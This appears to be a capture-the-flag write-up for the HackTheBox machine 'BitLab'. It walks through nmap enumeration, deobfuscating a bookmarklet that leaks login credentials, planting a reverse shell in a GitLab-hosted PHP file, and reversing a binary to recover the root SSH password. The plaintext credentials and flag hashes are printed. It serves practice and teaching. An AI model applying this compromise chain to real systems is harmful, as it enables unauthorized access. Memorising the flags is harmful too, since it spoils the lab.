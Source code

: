 ```yaml
---
date: 2020-01-11 23:48:05
layout: post
title: HackTheBox - BitLab
subtitle: "Created by: Mrx-Exploit"
description: >-
  Created by: Mrx-Exploit
image: >-
  /assets/img/hackthebox/bitlab/banner.png
optimized_image: >-
  /assets/img/hackthebox/bitlab/banner.png
category: blog
tags:
  - hackthebox
  - gitlab
  - web
  - ssh
  - reverse_engineering
  - privilege_escalation
author: Hazem Hesham
paginate: true
---
```



# Summary

It was easy box worth 20 points   
IP : `10.10.10.114`  
Easy user we got it after low enumeration we got it from web interface GitLab running on it and root part was so funny with reverse engineering

# Information Gathering

first lets add `10.10.10.114` to `/etc/hosts` file to bypass any dns records  

> Nmap


As usual we Have to see the open ports So this mission for nmap   

```Bash
root@kali:~# nmap -sVC bitlab.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 03:56 EST
Nmap scan report for bitlab.htb (10.10.10.114)
Host is up (0.89s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://bitlab.htb/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.54 seconds
```
I got only `22 and 80` So lets see the web interface
But before we go there is a lot of info in `robots.txt` like `/autocomplete/users /search /api /admin /profile /dashboard /projects/new /groups/new /groups/*/edit /users /help`  
A lot of subs we can visit it so lets see what's inside /help maybe we can get something useful  
Oh there is `HTML` file called `bookmarks.html` So lets see what's inside  
[!image](assets/img/hackthebox/bitlab/help.png)

Hmmm All return to the main website but `GitLab` have javascript so wired

```javascript
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```
It's obfuscation so lets deobfuscation this code using [this site](https://lelinhtinh.github.io/de4js/)
And I got this function
```javascript

javascript: (function () {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```
# PWN USER

What the hack we got username and passwd damn it's so easy  
`clave:11des0081x`

So lets harry up and try to login
After login we got access on `bitlab.htb/api`  
After some Enumeration I got `bitlab.htb/snippets/1`  

```php

<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

So lets try to edit in `root/profile` there is `index.php` file lets add our reverse shell there  

Yup we got **easy to hack easy to build**   

Now lets do php called Whatnow.php and put the php code we got Above and run it `php Whatnow.php`  

Wow we got username and Base64(passwd) So lets decode it and get to try `su -u clave` or ssh with this creds   
There is do decode for it !! so lets use it as we see  

```bash
root@kali:~# ssh clave@bitlab.htb
The authenticity of host 'bitlab.htb (10.10.10.114)' can't be established.
ECDSA key fingerprint is SHA256:hNHxoptKsWqkzdME7Bfb+cGjskcAAGySJazK+gDDCHQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bitlab.htb,10.10.10.114' (ECDSA) to the list of known hosts.
clave@bitlab.htb's password:
Last login: Thu Aug  8 14:40:09 2019
clave@bitlab:~$ pwd
/home/clave
clave@bitlab:~$ cat user.txt
1e3fd81ec3aa2f1462370ee3c20b8154
```

# PWN ROOT

We have exe file on the clave directory

```Bash
clave@bitlab:~$ ls -la
total 44
drwxr-xr-x 4 clave clave  4096 Aug  8 14:40 .
drwxr-xr-x 3 root  root   4096 Feb 28  2019 ..
lrwxrwxrwx 1 root  root      9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave  3771 Feb 28  2019 .bashrc
drwx------ 2 clave clave  4096 Aug  8 14:40 .cache
drwx------ 3 clave clave  4096 Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave   807 Feb 28  2019 .profile
-r-------- 1 clave clave 13824 Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave    33 Feb 28  2019 user.txt
clave@bitlab:~$
```
let's take this program in our Host   
```bash
root@kali:~# scp clave@bitlab.htb:/home/clave/RemoteConnection.exe /root/Desktop/
clave@bitlab.htb's password:
RemoteConnection.exe                                     100%   14KB   6.0KB/s   00:02    
```
And lets use IDA pro for this mission  
After using IDA pro I got something so wired  
[!image](assets/img/hackthebox/bitlab/putty.png)
It's calling putty.exe WHY !!?   
I think it's will ssh as root on the box !!?   
Let's try to get run it with breakpoint in `jnz       short  loc_401662`  
and we got it it's calling putty to connect with the box as root using ssh `ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^"`
So now we can connect as root let's try it  
```
root:Qf7]8YSV.wDNF*[7d?j&eD4^
```
```bash
root@kali:~# ssh root@bitlab.htb
root@bitlab.htb's password:
Last login: Fri Sep 13 14:11:14 2019
root@bitlab:~# pwd
/root
root@bitlab:~# cat root.txt
8d4cc131757957cb68d9a0cddccd587c
root@bitlab:~#
```
